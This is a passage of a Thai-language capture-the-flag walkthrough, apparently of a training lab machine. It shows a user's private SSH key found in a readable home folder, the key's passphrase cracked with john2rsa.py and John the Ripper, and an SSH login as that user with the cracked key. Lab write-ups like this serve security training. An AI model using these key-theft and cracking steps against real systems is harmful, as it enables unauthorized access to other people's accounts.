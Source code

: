 ```shell
total 48
drwxr-xr-x 5 kay  kay  4096 Apr 23  2018 .
drwxr-xr-x 4 root root 4096 Apr 19  2018 ..
-rw------- 1 kay  kay   756 Apr 23  2018 .bash_history
-rw-r--r-- 1 kay  kay   220 Apr 17  2018 .bash_logout
-rw-r--r-- 1 kay  kay  3771 Apr 17  2018 .bashrc
drwx------ 2 kay  kay  4096 Apr 17  2018 .cache
-rw------- 1 root kay   119 Apr 23  2018 .lesshst
drwxrwxr-x 2 kay  kay  4096 Apr 23  2018 .nano
-rw------- 1 kay  kay    57 Apr 23  2018 pass.bak
-rw-r--r-- 1 kay  kay   655 Apr 17  2018 .profile
drwxr-xr-x 2 kay  kay  4096 Apr 23  2018 .ssh
-rw-r--r-- 1 kay  kay     0 Apr 17  2018 .sudo_as_admin_successful
-rw------- 1 root kay   538 Apr 23  2018 .viminfo
jan@basic2:/home/kay$ cd .ssh
jan@basic2:/home/kay/.ssh$ ls -la
total 20
drwxr-xr-x 2 kay kay 4096 Apr 23  2018 .
drwxr-xr-x 5 kay kay 4096 Apr 23  2018 ..
-rw-rw-r-- 1 kay kay  771 Apr 23  2018 authorized_keys
-rw-r--r-- 1 kay kay 3326 Apr 19  2018 id_rsa
-rw-r--r-- 1 kay kay  771 Apr 19  2018 id_rsa.pub
```
เราก็จะพบกับ id_rsa private key ของ kay ดังนั้น เราจะนำตรงส่วนนนี้มาเป็นกุญแจให้เราเข้าสู่ระบบ kay
## Step 5 Login with id_rsa private key
```shell
┌──(root㉿root)-[~]
└─$ ssh kay@10.10.111.12 -i id_rsa
Enter passphrase for key 'id_rsa': 
```
จาดตรงนี้เราจะเห็นได้ว่า เราไม่มี passphrase ของ id_rsa ดังนั้น เราจึงต้องค้นหาก่อนจึงจะสามารถล็อกอินเข้าไปได้ โดยเราจะใช้ `john2rsa.py` มาใช้ในการค้นหาครั้งนี้
```shell
┌──(root㉿kali)-[/home/kali/Documents/shell]
└─# python3 john2rsa.py ../../Downloads/id_rsa > crack.txt 
```
จากนั้น เราก็จะใช้ john ในการถอด passphrase ออกมา
```shell
┌──(root㉿kali)-[/home/kali/Documents/shell]
└─# john crack.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 16 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/usr/share/john/password.lst
Proceeding with incremental:ASCII
beeswax          (~/id_rsa)     
```
เราก็จะได้ passphrase ออกมาแล้ว แล้วเราจึงนำส่วนนี้ไปใช้ในการ login
```shell
┌──(root㉿root)-[~]
└─$ ssh kay@10.10.111.12 -i id_rsa
Enter passphrase for key 'id_rsa': beeswax

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

0 packages can be updated.
```